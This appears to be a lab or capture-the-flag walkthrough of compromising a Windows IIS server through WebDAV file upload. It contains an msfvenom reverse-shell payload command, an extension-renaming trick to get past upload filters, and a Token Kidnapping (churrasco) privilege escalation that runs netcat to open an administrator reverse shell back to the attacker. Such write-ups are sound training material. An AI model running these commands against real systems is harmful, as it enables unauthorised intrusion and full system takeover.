







The engagement started with a port scan against the target host. The results showed that only port 80 was open, exposing an HTTP service.
Additional enumeration was performed, including subdirectory and subdomain brute forcing, but no additional attack surface was identified.
By enabling service version detection with the -sV flag, it was observed that the server allowed HTTP POST requests, which suggested potential file upload capabilities.
To validate this, davtest was executed against the web server to check for WebDAV misconfigurations.
davtest -url http://10.10.10.15
The output confirmed that multiple file types could be successfully uploaded to the server.
Based on the upload capabilities, a reverse shell payload was generated using msfvenom in ASPX format.
msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=<IP> LPORT=4444 -o shell.aspxTo bypass upload restrictions, the file extension was changed from ASPX to TXT before uploading it to the server.
mv shell.aspx shell.txtThe CADAVER tool was then used to interact with the WebDAV service and upload the payload.


Once uploaded, the file was accessed through the browser, which resulted in a successful reverse shell connection.
The obtained shell was running with low privileges, so system enumeration was performed using systeminfo to identify the operating system version and potential privilege escalation vectors.

Based on the system information, a suitable privilege escalation technique was identified: Token Kidnapping Local Privilege Escalation. This vulnerability allows execution of commands with administrative privileges.
To exploit this, the privilege escalation binary was uploaded to the server. As before, the file extension was adjusted to bypass upload restrictions.

Netcat was also uploaded to the target in order to establish a new reverse shell with elevated privileges.

Finally, the privilege escalation binary was executed to launch Netcat as an administrator, spawning a new elevated reverse shell.
C:\Inetpub\wwwroot>churrasco.exe -d "\inetpub\wwwroot\nc.exe -e cmd.exe <IP> 1234"This resulted in an administrative shell, completing the compromise of the system.
